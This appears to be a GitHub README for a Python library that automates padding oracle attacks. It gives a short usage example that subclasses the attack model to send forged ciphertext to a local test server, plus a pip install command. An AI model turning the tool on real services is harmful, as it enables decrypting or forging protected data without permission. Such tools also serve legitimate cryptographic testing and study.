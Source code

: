 a library for padding oracle attack
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

basic usge
---
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/padding_snap.GIF)

result picture
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)

install
---
```bash
pip install padding-oracle-attack
```